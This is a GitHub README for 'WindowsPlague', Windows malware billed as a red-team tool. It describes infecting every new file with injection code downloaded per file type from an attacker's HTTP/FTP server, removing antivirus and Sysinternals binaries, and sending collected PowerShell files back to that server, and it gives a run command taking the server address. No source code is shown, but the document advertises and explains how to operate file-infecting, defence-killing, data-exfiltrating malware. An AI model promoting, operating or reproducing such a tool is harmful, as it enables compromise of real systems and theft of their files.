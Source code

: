 # PlagueWindows

![logo](https://raw.githubusercontent.com/M507/WindowsPlague/master/Fullp.png)

WindowsPlague is Windows Malware built for Red-Team activities. 

### Futures:
----------
* Infects every new file in the system.
* Customized injections for each file.
* Quick removal for any antivirus.
* Quick removal for all Sysinternals binaries.
* Collects all ps1 files and transfers them to FTP server, to analyse.

### How does it work?
----------
It needs a server that must have:
| File name | Description |
| ------ | ------ |
| Ips1.dll | for Powershell files. |
| Iasp.dll | for asp and aspx files. |
| Ibat.dll | for Batch files. |
| Iphp.dll | for PHP files. |
| Itxt.dll  | for txt files. |
| antiu.dll  | for all prohibited keywords. |


Each dll file should have the injection code for each type of file.
Thus, each PHP file will be injected by the contact of Iphp.dll.

For example, If you do not want to inject txt files, do write anything in Itxt.dll, and this way it will not inject anything in txt files. But Itxt.dll must exist in the HTTP/FTP server.

### Run
----------
```sh
Microsoft Windows [Version 10.0.17763.503]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Users\Mohd> WindowsPlague.exe <HTTP/FTP server>
```

<HTTP/FTP server> Is needed so that the WindowsPlague can download all the .dll files from and whenever it finds a ps1 file sends it to <HTTP/FTP server>. 
